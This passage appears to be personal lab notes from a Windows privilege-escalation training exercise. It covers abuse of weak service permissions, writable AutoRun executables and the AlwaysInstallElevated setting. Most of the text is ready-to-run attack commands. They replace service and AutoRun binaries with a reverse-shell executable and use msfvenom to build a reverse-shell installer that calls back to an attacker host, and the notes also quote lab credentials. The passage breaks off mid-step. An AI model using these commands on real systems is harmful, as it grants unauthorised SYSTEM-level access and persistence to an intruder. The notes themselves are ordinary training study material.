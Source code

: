 ![[Pasted image 20251006223557.png]]

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start filepermsvc`

## Registry - Autoruns
Query the registry for AutoRun executables:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

![[Pasted image 20251006223708.png]]

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

![[Pasted image 20251006223732.png]]

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. **You should not have to authenticate to trigger it,** however if the payload does not fire, log in as an admin (admin/password123) to trigger it. 
Note that in a real world engagement**, you would have to wait for an administrator to log in themselves!**  

`rdesktop 10.10.197.251`

## Registry - AlwaysInstalledElevated
Query the registry for AlwaysInstallElevated keys:

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   

`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

![[Pasted image 20251006224620.png]]

Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:  

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:  
